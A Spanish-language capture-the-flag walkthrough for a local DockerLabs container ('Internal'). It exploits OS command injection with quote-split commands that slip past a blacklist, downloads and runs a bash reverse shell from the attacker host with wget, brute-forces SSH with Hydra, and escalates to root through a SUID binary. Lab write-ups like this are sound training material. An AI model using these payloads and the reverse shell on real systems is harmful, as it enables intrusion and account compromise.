







# Internal DockerLabs (Easy)

## Contexto de la maquina

### Trayectoria Internal

<figure><figcaption></figcaption></figure>

### Descripción

**Internal – SysVault Backup Lab** es una máquina Linux vulnerable desplegada en entorno local mediante contenedor. El laboratorio combina explotación web, evasión de filtros tipo WAF, inyección de comandos a nivel sistema y escalada de privilegios mediante binarios con permisos SUID mal configurados.

El escenario parte de un servicio web con virtual hosting interno, desde el cual se descubre un subdominio que expone una funcionalidad vulnerable a inyección de comandos. A partir de ahí, se obtiene una reverse shell como `www-data`, se compromete el usuario `vault` mediante reutilización de credenciales expuestas y finalmente se escalan privilegios a `root` explotando un binario SUID inseguro.

**Objetivo del reto**

* Obtener acceso inicial al sistema mediante explotación web.
* Comprometer el usuario `vault`.
* Escalar privilegios hasta `root`.
* Obtener las flags correspondientes.

**Tipo de máquina**

* Linux
* Web + Command Injection
* Escalada de privilegios (SUID)

**Habilidades y técnicas evaluadas**

* Enumeración de puertos y servicios.
* Virtual Host Discovery.
* Fuzzing de subdominios.
* Bypass de WAF por blacklist.
* Inyección de comandos en entorno web.
* Obtención y estabilización de reverse shell.
* Ataques de fuerza bruta con Hydra.
* Escalada de privilegios mediante binarios SUID inseguros.

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip internal.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh internal.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-01 03:24 -0500
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:66:aa:77:67:23:c3:15:5a:fb:3d:02:08:71:c7:9f (ECDSA)
|_  256 82:a2:e0:d9:84:da:39:bf:da:06:51:b8:3b:32:9a:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://internal.dl/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.30 seconds
```

Observamos únicamente dos puertos expuestos:

* **22/tcp** → Servicio SSH
* **80/tcp** → Servidor web Apache 2.4.58

Es importante destacar que el puerto 80 redirige a un dominio interno llamado `internal.dl`, lo que indica el uso de virtual hosts.

## Resolución del dominio interno

Para poder interactuar correctamente con el virtual host, añadimos el dominio al archivo `/etc/hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>         internal.dl
```

Accedemos entonces a:

```
URL = https://internal.dl/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos una página web aparentemente funcional y sin elementos sospechosos a simple vista.

## Fuzzing de subdominios

Dado que se trata de un entorno interno, procedemos a enumerar posibles subdominios utilizando **FFUF**:

```shell
ffuf -c -t 200 -w <WORDLIST> -H "Host: FUZZ.internal.dl" -u http://internal.dl/
```

Respuesta:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.dl/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.internal.dl
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

backup                  [Status: 200, Size: 22554, Words: 4271, Lines: 812, Duration: 4ms]
Backup                  [Status: 200, Size: 22554, Words: 4271, Lines: 812, Duration: 14ms]
:: Progress: [220560/220560] :: Job [1/1] :: 199 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```

Se descubre el subdominio `backup.internal.dl`.

Lo añadimos también al archivo `/etc/hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           internal.dl backup.internal.dl
```

<figure><figcaption></figcaption></figure>

Lo guardamos y entramos a dicho `subdominio` de esta forma:

```
URL = http://backup.internal.dl/
```

Respuesta:

<figure><figcaption></figcaption></figure>

## Análisis del subdominio Backup

La aplicación expone un **dashboard** que incluye una funcionalidad llamada _Directory Inspector_, la cual permite introducir rutas y ejecuta internamente un `ls -lah` mostrando el output en pantalla.

Esto ya nos da una pista clara: existe una posible **inyección de comandos del sistema (OS Command Injection)**.

## Intento de Command Injection

Probamos inicialmente con:

```shell
/tmp; cat /etc/passwd
```

Sin embargo, el sistema bloquea la ejecución. Esto indica la presencia de una **blacklist** que filtra operadores como:

* `;`
* `&&`
* `||`
* Espacios
* Algunos comandos directos

Tras varias pruebas, se detecta que el filtrado no contempla correctamente la **sustitución de comandos** (`$()`), ni técnicas de evasión mediante fragmentación de cadenas.

## Escalate user www-data

### Bypass del filtro (WAF Evading)

Utilizamos sustitución de comandos junto con evasión básica:

```shell
/etc/passwd$(c''a''t /etc/passwd)
```

Resultado:

```
ls: cannot access '/etc/passwdroot:x:0:0:root:/root:/bin/bash': No such file or directory
ls: cannot access 'daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin': No such file or directory
ls: cannot access 'bin:x:2:2:bin:/bin:/usr/sbin/nologin': No such file or directory
ls: cannot access 'sys:x:3:3:sys:/dev:/usr/sbin/nologin': No such file or directory
ls: cannot access 'sync:x:4:65534:sync:/bin:/bin/sync': No such file or directory
ls: cannot access 'games:x:5:60:games:/usr/games:/usr/sbin/nologin': No such file or directory
ls: cannot access 'man:x:6:12:man:/var/cache/man:/usr/sbin/nologin': No such file or directory
ls: cannot access 'lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin': No such file or directory
ls: cannot access 'mail:x:8:8:mail:/var/mail:/usr/sbin/nologin': No such file or directory
ls: cannot access 'news:x:9:9:news:/var/spool/news:/usr/sbin/nologin': No such file or directory
ls: cannot access 'uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin': No such file or directory
ls: cannot access 'proxy:x:13:13:proxy:/bin:/usr/sbin/nologin': No such file or directory
ls: cannot access 'www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin': No such file or directory
ls: cannot access 'backup:x:34:34:backup:/var/backups:/usr/sbin/nologin': No such file or directory
ls: cannot access 'list:x:38:38:Mailing': No such file or directory
ls: cannot access 'List': No such file or directory
ls: cannot access 'Manager:/var/list:/usr/sbin/nologin': No such file or directory
ls: cannot access 'irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin': No such file or directory
ls: cannot access '_apt:x:42:65534::/nonexistent:/usr/sbin/nologin': No such file or directory
ls: cannot access 'nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin': No such file or directory
ls: cannot access 'ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash': No such file or directory
ls: cannot access 'systemd-network:x:998:998:systemd': No such file or directory
ls: cannot access 'Network': No such file or directory
ls: cannot access 'Management:/:/usr/sbin/nologin': No such file or directory
ls: cannot access 'systemd-timesync:x:997:997:systemd': No such file or directory
ls: cannot access 'Time': No such file or directory
ls: cannot access 'Synchronization:/:/usr/sbin/nologin': No such file or directory
ls: cannot access 'messagebus:x:100:102::/nonexistent:/usr/sbin/nologin': No such file or directory
ls: cannot access 'systemd-resolve:x:996:996:systemd': No such file or directory
ls: cannot access 'Resolver:/:/usr/sbin/nologin': No such file or directory
ls: cannot access 'sshd:x:101:65534::/run/sshd:/usr/sbin/nologin': No such file or directory
ls: cannot access 'vault:x:1001:1001:,,,:/home/vault:/bin/bash': No such file or directory
```

El resultado muestra errores del comando `ls`, pero incluye el contenido de `/etc/passwd` embebido en la salida. Esto confirma que:

* La inyección es viable.
* El comando dentro de `$()` se ejecuta antes del `ls`.
* El filtrado se basa en blacklist débil.

Entre los usuarios listados observamos uno interesante:

```
vault:x:1001:1001:,,,:/home/vault:/bin/bash
```

## Obtención de Reverse Shell (www-data)

Una vez confirmada la inyección de comandos, el siguiente paso lógico es obtener una **reverse shell** para trabajar de forma más cómoda y estable sobre el sistema comprometido.

### Preparación de la shell en la máquina atacante

Creamos un archivo llamado `shell` con el siguiente contenido:

> shell

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1
```

Este script abrirá una conexión TCP hacia nuestra máquina atacante y redirigirá la entrada/salida estándar, otorgándonos una shell interactiva.

A continuación, levantamos un servidor HTTP simple para alojar el archivo:

```shell
python3 -m http.server 80
```

### Descarga del payload desde el servidor vulnerable

Aprovechando la vulnerabilidad de command injection y el bypass previamente descubierto, forzamos la descarga del archivo hacia `/tmp`:

```shell
/etc/passwd$(w''g''e''t http://<IP_ATTACKER>/shell -O /tmp/shell)
```

La fragmentación del comando (`w''g''e''t`) permite evadir la blacklist del WAF.

Confirmamos en nuestro servidor HTTP que la víctima realizó la petición:

```
172.17.0.2 - - [01/Mar/2026 04:24:02] "GET /shell HTTP/1.1" 200 -
```

### Ejecución de la reverse shell

Ponemos el listener en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

Desde la aplicación vulnerable ejecutamos el script descargado:

```shell
/etc/passwd$(b''a''s''h /tmp/shell)
```

Recibimos conexión:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 52804
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
www-data@06b7d3a857b3:/var/www/admin$ whoami
whoami
www-data
```

Hemos obtenido acceso como **www-data**.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user vault

<figure><figcaption></figcaption></figure>

Explorando el sistema, accedemos al directorio `/opt`:

```shell
cd /opt
ls -la
```

Respuesta:

```
total 16
drwxr-xr-x 1 www-data www-data 4096 Feb 25 15:02 .
drwxr-xr-x 1 root     root     4096 Mar  1 02:22 ..
-rw-r--r-- 1 www-data vault     260 Feb 25 13:24 .vault_pass.txt
drwxrwxr-x 1 root     vault    4096 Feb 26 10:50 vaultlibs
```

El archivo `.vault_pass.txt` resulta interesante, ya que pertenece al grupo `vault`. Al leerlo observamos múltiples posibles contraseñas.

```
X#9mK$vL2@pQ
nR7!wZ3&eT5*
Hy6@jP2#mX8$
qB4!nW9&kL3@
Vz8#cR5$xJ2!
mT3@bY7!pN6&
Kw5$hM2#fQ9@
eL8!vX4&nB6*
Rj2@cT7#wP5$
uN9&mK3!xZ4@
Fb6#yH8$qW2!
sG4@tL5&rJ9*
Dp7!kM3#bX6@
aC2$vN8!wQ5&
Xt9@eR4#hL7$
oW3&jB6!mT2#
Yk8$pZ5@cN4!
iH2#xQ9&fR7*
Mn5!bL3$vW8@
Gq4@tX7#eK2&
```

Dado que el puerto 22 (SSH) está abierto, decidimos realizar un ataque de fuerza bruta controlado contra el usuario `vault`.

Transferimos el archivo a nuestra máquina atacante y ejecutamos:

```shell
hydra -l vault -P .vault_pass.txt ssh://<IP> -t 64 -I
```

Resouesta:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-01 04:34:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 20 login tries (l:1/p:20), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: vault   password: Yk8$pZ5@cN4!
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-01 04:34:49
```

Hemos identificado credenciales válidas.

### SSH (vault)

Una vez identificadas las credenciales válidas del usuario `vault`, procedemos a conectarnos al sistema mediante **SSH**:

```shell
ssh vault@<IP>
```

Metemos como contraseña `Yk8$pZ5@cN4!`...

```
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 26 10:55:44 2026 from 172.17.0.1
vault@06b7d3a857b3:~$ whoami
vault
```

Verificamos que la autenticación ha sido exitosa y que efectivamente tenemos una sesión interactiva como el usuario `vault`.

Con esto confirmamos el acceso al sistema con privilegios de usuario estándar. A continuación, procedemos a leer la flag correspondiente al usuario.

> flag.txt

```

 ███████╗██╗   ██╗███████╗██╗   ██╗ █████╗ ██╗   ████████╗
 ██╔════╝╚██╗ ██╔╝██╔════╝██║   ██║██╔══██╗██║   ╚══██╔══╝
 ███████╗ ╚████╔╝ ███████╗██║   ██║███████║██║      ██║   
 ╚════██║  ╚██╔╝  ╚════██║╚██╗ ██╔╝██╔══██║██║      ██║   
 ███████║   ██║   ███████║ ╚████╔╝ ██║  ██║███████╗ ██║   
 ╚══════╝   ╚═╝   ╚══════╝  ╚═══╝  ╚═╝  ╚═╝╚══════╝ ╚═╝  

  ----------------------------------------
  🏁  CHALLENGE FLAG — SysVault Backup Lab
  ----------------------------------------

  FLAG{CMD_1NJ3CT10N_M4ST3R_W4F_BYP4SS3D}

  ----------------------------------------
  Techniques required to reach this file:
  ----------------------------------------

  [✓] 1. Bypass WAF operator filter
          → Used newline (%7C) instead of ; && ||

  [✓] 2. Bypass space blacklist
          → Used $IFS  instead of space

  [✓] 3. Bypass command blacklist
          → Used quotes: c'a't, or base64 encoding
            or reversed command: $(rev<<<'tac')

  [✓] 4. Read this file
          → /flag.txt

  ----------------------------------------
  Congratulations! You have demonstrated:
  - WAF evasion
  - Blacklist bypass (spaces, commands, operators)
  - OS command injection via shell_exec()
  ----------------------------------------
```

La flag confirma que la explotación previa se basó en una **inyección de comandos del sistema operativo**, combinada con técnicas de evasión de filtros (WAF) y bypass de listas negras mediante manipulación de operadores, espacios y comandos.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Una vez comprometido el usuario `vault`, el siguiente objetivo es escalar privilegios a **root**.

Para ello, realizamos una enumeración de binarios con el bit **SUID** activo, ya que estos se ejecutan con los privilegios del propietario (normalmente `root`).

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Resultado:

```
2115457     40 -rwsr-xr-x   1 root     root        39296 Sep 15 18:08 /usr/bin/umount
  2115223     72 -rwsr-xr-x   1 root     root        72792 May 30  2024 /usr/bin/chfn
  2115354     40 -rwsr-xr-x   1 root     root        40664 May 30  2024 /usr/bin/newgrp
  2115349     52 -rwsr-xr-x   1 root     root        51584 Sep 15 18:08 /usr/bin/mount
  2115229     44 -rwsr-xr-x   1 root     root        44760 May 30  2024 /usr/bin/chsh
  2115365     64 -rwsr-xr-x   1 root     root        64152 May 30  2024 /usr/bin/passwd
  2115431     56 -rwsr-xr-x   1 root     root        55680 Sep 15 18:08 /usr/bin/su
  2115290     76 -rwsr-xr-x   1 root     root        76248 May 30  2024 /usr/bin/gpasswd
  3201619    336 -rwsr-xr-x   1 root     root       342632 Aug 26  2025 /usr/lib/openssh/ssh-keysign
  2940172     36 -rwsr-xr--   1 root     messagebus    34960 Aug  8  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2259981     16 -rwsr-xr--   1 root     vault         16136 Feb 25 15:00 /usr/local/bin/vaultctl
```

Entre los binarios listados, destaca especialmente:

```
2259981  16 -rwsr-xr--  1 root  vault  16136 Feb 25 15:00 /usr/local/bin/vaultctl
```

Observamos que:

* Pertenece al usuario `root`
* Tiene el bit **SUID** activo (`-rwsr-xr--`)
* Es ejecutable por el grupo `vault`
* Nuestro usuario actual pertenece a dicho grupo

Esto lo convierte en un claro vector potencial de escalada.

Procedemos a ejecutarlo para analizar su comportamiento:

```shell
/usr/local/bin/vaultctl
```

Respuesta:

```
root@06b7d3a857b3:~# whoami
root
```

Al ejecutarlo, obtenemos directamente una shell con privilegios de `root`.

Esto indica que internamente el binario está invocando una shell (por ejemplo, `/bin/bash`) sin sanitización ni control adecuado, heredando los privilegios efectivos del propietario debido al bit **SUID**.

Dado que el binario pertenece a `root` y se ejecuta con su UID efectivo, cualquier shell lanzada desde él se ejecutará también como `root`.
